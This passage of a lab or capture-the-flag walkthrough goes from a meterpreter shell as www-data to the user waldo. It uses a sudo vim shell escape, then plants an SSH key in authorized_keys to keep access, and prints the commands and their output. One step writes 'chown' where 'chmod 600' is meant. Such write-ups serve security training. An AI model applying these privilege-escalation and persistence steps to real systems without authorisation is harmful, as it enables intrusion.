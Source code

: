 Now that we've got a meterpreter shell as the `www-data` user, we were able to do some exploring. We downloaded php files for examination, and checked out what sudo commands were available to the `www-data` user.

{{< highlight markdown >}}
meterpreter > channel -i 2
Interacting with channel 2...


whoami
www-data
sudo -l 
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (waldo) NOPASSWD: /usr/bin/vim /etc/apache2/sites-available/000-default.conf
    (ALL) NOPASSWD: /sbin/iptables
{{< / highlight >}}

This shows us how to become the user `waldo` with a vim escape from a `www-data` shell.

## Becoming waldo, another user with better access

With the information we just gathered, as `www-data`, we run the following command `sudo -u waldo /usr/bin/vim /etc/apache2/sites-available/000-default.conf`Once vim, opens we escape to a shell by hitting Esc, followed by:

`:shell`Now we are waldo, as we can see in the following commands

{{< highlight markdown >}}
whoami
waldo
id
uid=1000(waldo) gid=1000(waldo) groups=1000(waldo),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
{{< / highlight >}}

We still have a terrible shell though, because `shell -t` as the `www-data` user failed from meterpreter (and we had to fallback to just `shell`); this is because `www-data` user is not allowed to have a tty. Now that we have access as the user `waldo`, let's get a tty.

## Getting a Real Terminal

To do this, we make the .ssh directory in waldo's home, echo out an ssh pubkey to the `~waldo/.ssh/authorized_keys` and chown it 600. Now we can simply ssh as `waldo`.

{{< highlight markdown >}}
root@kali:~# ssh waldo@wallaby 
Welcome to Ubuntu 16.04.1 LTS (GNU/Linux 4.4.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Thu May  2 18:11:36 2019 from 192.168.167.130
waldo@ubuntu:~$ 
{{< / highlight >}}
